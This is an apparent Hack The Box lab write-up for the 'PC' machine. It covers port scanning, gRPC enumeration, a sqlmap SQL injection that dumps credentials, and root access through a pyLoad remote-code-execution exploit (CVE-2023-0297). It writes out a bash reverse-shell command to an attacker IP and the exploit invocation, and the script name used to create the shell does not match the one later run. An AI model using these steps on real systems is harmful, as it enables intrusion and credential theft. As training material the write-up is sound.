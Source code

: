 # PC

<p align="center"><img src="assets/PC.png" width="400"></p>

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/PC
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 10.10.11.214 --rate=1000 -e tun0

Discovered open port 22/tcp on 10.10.11.214
Discovered open port 50051/tcp on 10.10.11.214
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV -p22,50051 -Pn 10.10.11.214

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=9/5%Time=64F6F7C7%P=aarch64-unknown-linux-gn
SF:u%r(NULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff
SF:\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Ge
SF:nericLines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:GetRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:HTTPOptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\
SF:xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r
SF:(RTSPRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff
SF:\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%
SF:r(RPCCheck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:DNSVersionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff
SF:\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\
SF:0\0\0\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0
SF:\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\
SF:x08\0\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x0
SF:4\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x
SF:04\x08\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\
SF:0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04
SF:\x08\0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\
SF:0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04
SF:\x08\0\0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>


## Foothold

### gRPC → `sau` 🚩

#### Searching for Vulnerabilities

- according to Google, port `50051` is used by gRPC
- connecting with [grpcurl](https://github.com/fullstorydev/grpcurl) shows that the port is indeed used by gRPC:
    
    ```
    ./grpcurl -plaintext 10.10.11.214:50051 list
    
    SimpleApp
    grpc.reflection.v1alpha.ServerReflection
    ```
- [grpcui](https://github.com/fullstorydev/grpcui) provides a Web UI, which makes interaction with the gRPC server easier:
    
    ```
    go run ./cmd/grpcui/grpcui.go -plaintext 10.10.11.214:50051
    ```

#### Exploitation

1. Using `grpcui`, we can create a user account with the `RegisterUser` method:
    
    <p align="center"><img src="assets/register-user.png" width="400"></p>

2. Log in via the `LoginUser` method, the response contains `id` and `token`:

    <p align="center"><img src="assets/response-token.png" width="400"></p>

3. We can add the token as metadata and call the `getInfo` method, while intercepting the POST request with burpsuite:

    <p align="center"><img src="assets/getinfo.png" width="400"></p>

4. `sqlmap -r request` shows that an SQL injection is possible, we can use the `--dump` flag to output the database entries:
    
    ```
    +------------------------+----------+
    | password               | username |
    +------------------------+----------+
    | admin                  | admin    |
    | HereIsYourPassWord1431 | sau      |
    +------------------------+----------+
    ```

5. We can use the password `HereIsYourPassWord1431` to connect via SSH as `sau`. 🚩

## Privilege Escalation

### `sau` → `root` 🏁

#### Searching for Vulnerabilities

- `ss -tlpn` shows that the port `8000` is open locally
- we can use SSH to forward the port to our local machine:
    
    ```
    ssh -L 12345:localhost:8000 sau@10.10.11.214
    ```
- Now scanning the port with nmap shows, that there is a web server running. Opening the webpage in a browser reveals that this is a pyLoad instance for which an RCE exploit exists *(CVE-2023-0297)*
    - https://www.exploit-db.com/exploits/51532

#### Exploitation

1. On the target, we can create a script `/tmp/shell.sh` for starting a reverse shell:
    
    ```bash
    #!/bin/bash

    /bin/sh -i >& /dev/tcp/10.10.16.3/9002 0>&1
    ```

2. Then we can use the [exploit](https://www.exploit-db.com/exploits/51532) to start a reverse shell:
    ```bash
    python3 51532.py -u http://127.0.0.1:12345 -c 'bash /tmp/bash.sh'
    ```

3. We now have reverse shell access as `root`. 🏁
